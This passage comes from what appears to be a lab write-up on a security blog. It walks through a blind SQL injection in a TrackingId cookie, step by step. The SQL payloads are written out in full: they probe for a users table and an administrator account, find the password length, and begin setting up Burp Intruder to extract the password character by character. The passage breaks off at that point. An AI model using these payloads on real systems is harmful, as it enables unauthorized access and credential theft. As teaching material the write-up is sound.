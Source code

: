 This confirms the parameter is vulnerable to Blind SQL Injection.


### 2. Confirm the users table exists

```
'select tracking-id from tracking-table 
'where trackingId = 'RvLfBu6s9EZRlVYN' 
'and (select 'x' from users LIMIT 1)='x'-- 
```

<div style="text-align: center;">
  <img src="/top10-owasp-blog/assets/images/wu2.png" alt="SQL Injection Diagram" style="width: 40%; border: 1px solid #ccc; border-radius: 8px;">
  <p><em>Figure 1: </em> Tested the cookie value </p>
</div>
--
==>  users table exists.

### 3. Confirm administrator user exists
```
select tracking-id from tracking-table 
where trackingId = 'RvLfBu6s9EZRlVYN' 
and (select username from users where username='administrator')='administrator'-- 
```

==> administrator user exists.

<div style="text-align: center;">
  <img src="/top10-owasp-blog/assets/images/wu3.png" alt="SQL Injection Diagram" style="width: 40%; border: 1px solid #ccc; border-radius: 8px;">
  <p><em>Figure 1: </em> Tested the cookie value </p>
</div>

### 4. Determine the password length

```
' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)=20)='administrator'--
```

If the length is x , the subquery returns administrator, making the comparison = 'administrator' TRUE.
The app will display the "Welcome back" message.

If the length is not x, the condition is FALSE, and no "Welcome back" message appears.
By adjusting the number in LENGTH(password)=X and observing the response, you can find the exact length.

==>  Password length is 20 characters by display the "Welcome back" message.

### 5. Extract the password character-by-character

- Send a vulnerable request to Intrude
- In Intruder, highlight the value of the TrackingId cookie after the ' and mark it as a payload position:
